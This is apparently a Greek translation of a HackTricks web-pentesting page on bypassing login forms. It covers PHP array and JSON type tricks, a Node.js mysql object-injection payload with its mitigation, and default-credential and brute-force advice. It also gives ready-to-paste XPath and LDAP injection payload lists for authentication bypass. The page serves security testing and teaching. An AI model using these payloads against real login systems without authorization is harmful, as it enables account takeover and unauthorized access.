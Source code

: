# Login Bypass

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

## **Παράκαμψη κανονικής σύνδεσης**

Αν βρείτε μια σελίδα σύνδεσης, εδώ μπορείτε να βρείτε μερικές τεχνικές για να προσπαθήσετε να την παρακάμψετε:

* Ελέγξτε για **σχόλια** μέσα στη σελίδα (κύληση προς τα κάτω και προς τα δεξιά;)
* Ελέγξτε αν μπορείτε να **έχετε άμεση πρόσβαση στις περιορισμένες σελίδες**
* Ελέγξτε να **μη στείλετε τις παραμέτρους** (μη στείλετε καμία ή μόνο 1)
* Ελέγξτε το **σφάλμα συγκρίσεων PHP:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Αλλάξτε τον τύπο περιεχομένου σε json** και στείλτε τιμές json (συμπεριλαμβανομένου του bool true)
* Αν λάβετε μια απάντηση που λέει ότι το POST δεν υποστηρίζεται, μπορείτε να προσπαθήσετε να στείλετε το **JSON στο σώμα αλλά με αίτημα GET** με `Content-Type: application/json`
* Ελέγξτε το πιθανό σφάλμα ανάλυσης nodejs (διαβάστε [**αυτό**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Το nodejs θα μετατρέψει αυτό το payload σε ένα ερώτημα παρόμοιο με το εξής: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` το οποίο καθιστά το bit του κωδικού πρόσβασης πάντα αληθές.
* Αν μπορείτε να στείλετε ένα αντικείμενο JSON, μπορείτε να στείλετε `"password":{"password": 1}` για να παρακάμψετε τη σύνδεση.
* Θυμηθείτε ότι για να παρακάμψετε αυτή τη σύνδεση πρέπει να **γνωρίζετε και να στείλετε ένα έγκυρο όνομα χρήστη**.
* **Προσθέτοντας την επιλογή `"stringifyObjects":true`** κατά την κλήση του `mysql.createConnection` θα μπλοκάρει τελικά όλες τις απροσδόκητες συμπεριφορές όταν το `Object` περάσει ως παράμετρος.
* Ελέγξτε τα διαπιστευτήρια:
* [**Προεπιλεγμένα διαπιστευτήρια**](../../generic-hacking/brute-force.md#default-credentials) της τεχνολογίας/πλατφόρμας που χρησιμοποιείται
* **Κοινές συνδυασμοί** (root, admin, password, όνομα της τεχνολογίας, προεπιλεγμένος χρήστης με έναν από αυτούς τους κωδικούς πρόσβασης).
* Δημιουργήστε ένα λεξικό χρησιμοποιώντας **Cewl**, **προσθέστε** το **προεπιλεγμένο** όνομα χρήστη και κωδικό πρόσβασης (αν υπάρχει) και προσπαθήστε να το σπάσετε χρησιμοποιώντας όλες τις λέξεις ως **ονόματα χρήστη και κωδικούς πρόσβασης**
* **Brute-force** χρησιμοποιώντας ένα μεγαλύτερο **λεξικό (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection authentication bypass

[Εδώ μπορείτε να βρείτε αρκετά κόλπα για να παρακάμψετε τη σύνδεση μέσω **SQL injections**](../sql-injection/#authentication-bypass).

Στην επόμενη σελίδα μπορείτε να βρείτε μια **προσαρμοσμένη λίστα για να προσπαθήσετε να παρακάμψετε τη σύνδεση** μέσω SQL Injections:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection authentication bypass

[Εδώ μπορείτε να βρείτε αρκετά κόλπα για να παρακάμψετε τη σύνδεση μέσω **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

Καθώς οι NoSQL Injections απαιτούν να αλλάξετε την τιμή των παραμέτρων, θα χρειαστεί να τις δοκιμάσετε χειροκίνητα.

### XPath Injection authentication bypass

[Εδώ μπορείτε να βρείτε αρκετά κόλπα για να παρακάμψετε τη σύνδεση μέσω **XPath Injection.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε την είσοδο μέσω **LDAP Injection.**](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Θυμήσου Με

Αν η σελίδα έχει λειτουργία "**Θυμήσου Με**", έλεγξε πώς είναι υλοποιημένη και δες αν μπορείς να την εκμεταλλευτείς για να **αναλάβεις άλλους λογαριασμούς**.

### Ανακατευθύνσεις

Οι σελίδες συνήθως ανακατευθύνουν τους χρήστες μετά την είσοδο, έλεγξε αν μπορείς να αλλάξεις αυτή την ανακατεύθυνση για να προκαλέσεις μια [**Ανοιχτή Ανακατεύθυνση**](../open-redirect.md). Ίσως μπορέσεις να κλέψεις κάποιες πληροφορίες (κωδικούς, cookies...) αν ανακατευθύνεις τον χρήστη στην ιστοσελίδα σου.

## Άλλοι Έλεγχοι

* Έλεγξε αν μπορείς να **αριθμήσεις ονόματα χρηστών** εκμεταλλευόμενος τη λειτουργία εισόδου.
* Έλεγξε αν είναι ενεργοποιημένο το **αυτόματη συμπλήρωση** στις φόρμες κωδικού/**ευαίσθητης** πληροφορίας **εισόδου:** `<input autocomplete="false">`

## Αυτόματα Εργαλεία

* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) είναι το πιο σχετικό γεγονός κυβερνοασφάλειας στην **Ισπανία** και ένα από τα πιο σημαντικά στην **Ευρώπη**. Με **αποστολή την προώθηση τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες τεχνολογίας και κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Μάθε & εξάσκησε το AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθε & εξάσκησε το GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξε το HackTricks</summary>

* Έλεγξε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετοχή στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολούθησέ** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιράσου κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
